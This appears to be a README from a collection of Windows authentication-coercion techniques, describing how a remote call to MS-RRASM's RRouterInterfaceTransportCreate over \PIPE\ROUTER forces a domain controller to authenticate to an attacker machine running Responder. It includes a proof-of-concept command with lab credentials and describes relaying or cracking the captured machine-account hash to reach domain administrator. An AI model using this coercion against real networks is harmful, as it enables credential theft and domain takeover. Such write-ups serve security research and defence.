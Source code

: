 # MS-RRASM - Remote call to RRouterInterfaceTransportCreate (opnum 37)

## Summary

 - **Protocol**: [[MS-RRASM]: Routing and Remote Access Server (RRAS) Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/a1e2840d-c9ff-4407-abf4-17aa6af34112)

 - **Protocol UUID**: 8f09f000-b7ed-11ce-bbd2-00001a181cad

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\ROUTER`

 - **Function name**: [`RRouterInterfaceTransportCreate`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/9829344c-f22b-4d53-946b-20542ec43be4)

 - **Function operation number**: `37`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\ROUTER` and bind to the desired [`MS-RRASM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/a1e2840d-c9ff-4407-abf4-17aa6af34112) protocol (with uuid `8f09f000-b7ed-11ce-bbd2-00001a181cad` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-RRASM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/a1e2840d-c9ff-4407-abf4-17aa6af34112) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\ROUTER` This pipe is connected to the protocol [[MS-RRASM]: Routing and Remote Access Server (RRAS) Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/a1e2840d-c9ff-4407-abf4-17aa6af34112) and allows to call RPC functions of this protocol. We will then call the remote [`RRouterInterfaceTransportCreate`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/9829344c-f22b-4d53-946b-20542ec43be4) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RRouterInterfaceTransportCreate('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD RRouterInterfaceTransportCreate(
   [in] DIM_HANDLE hDimServer,
   [in] DWORD dwTransportId,
   [in, string] LPWSTR lpwsTransportName,
   [in] PDIM_INTERFACE_CONTAINER pInfoStruct,
   [in, string] LPWSTR lpwsDLLPath
 );
```

## References

 - Documentation of protocol [MS-RRASM]: Routing and Remote Access Server (RRAS) Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/a1e2840d-c9ff-4407-abf4-17aa6af34112

 - Documentation of function `RRouterInterfaceTransportCreate`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/9829344c-f22b-4d53-946b-20542ec43be4